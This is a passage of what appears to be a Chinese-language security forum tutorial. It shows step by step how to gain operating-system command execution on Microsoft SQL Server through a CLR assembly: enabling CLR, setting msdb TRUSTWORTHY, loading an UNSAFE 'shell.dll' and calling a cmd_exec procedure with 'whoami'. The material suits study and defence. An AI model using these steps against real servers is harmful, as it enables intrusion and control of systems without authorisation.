 ```php
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [shell].[StoredProcedures].[cmd_exec];
GO
```

执行命令即可

```php
cmd_exec 'whoami'
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-bc96f7bd0a965784473a87b1b4bc84f4a03c614e.png)  
尝试使用命令行来添加clr，首先删除刚添加的程序集和过程

```php
DROP PROCEDURE  cmd_exec
DROP ASSEMBLY shell
```

选择调用的数据库

```php
use msdb
```

启用 CLR 集成

```php
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE
GO
```

查询是否启用了 CLR 集成，value为1则为开启

```php
SELECT * FROM sys.configurations WHERE name = 'clr enabled'
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-d254c64eea5332c7e547bb67ae4676e757cf92a6.png)  
启用可信任

```php
ALTER DATABASE msdb SET TRUSTWORTHY ON
```

查询是否执行成功，为1则开启

```php
select name, is_trustworthy_on from sys.databases
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b44a936f6c7f1688afee21e738a533ecf6aa42a2.png)  
使用命令创建程序集

```php
CREATE ASSEMBLY shell
FROM 'c:\temp\shell.dll'
WITH PERMISSION_SET = UNSAFE;
```
